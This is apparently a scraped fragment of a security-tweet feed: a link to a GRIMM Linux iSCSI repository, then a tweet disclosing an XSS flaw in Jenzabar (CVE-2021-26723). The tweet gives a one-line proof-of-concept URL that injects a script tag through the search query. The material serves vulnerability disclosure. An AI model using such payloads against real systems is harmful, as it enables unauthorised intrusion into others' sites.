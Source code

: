 * https://github.com/grimm-co/NotQuite0DayFriday/tree/trunk/2021.03.12-linux-iscsi

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>68</code></td>
<td>Favorites: <code>170</code></td>
</tr></table>

---

# 3XS0
**https://twitter.com/3XS0/status/1370458184914206725 _at 2021-03-12 19:34:27_**
<blockquote>
XSS in Jenzabar (CVE-2021-26723)

POC:
/ics?tool=search&amp;query="&gt;&lt;script&gt;alert('xss')&lt;/script&gt;

#XSS https://t.co/cGM957RGCU
</blockquote>


<table><tr>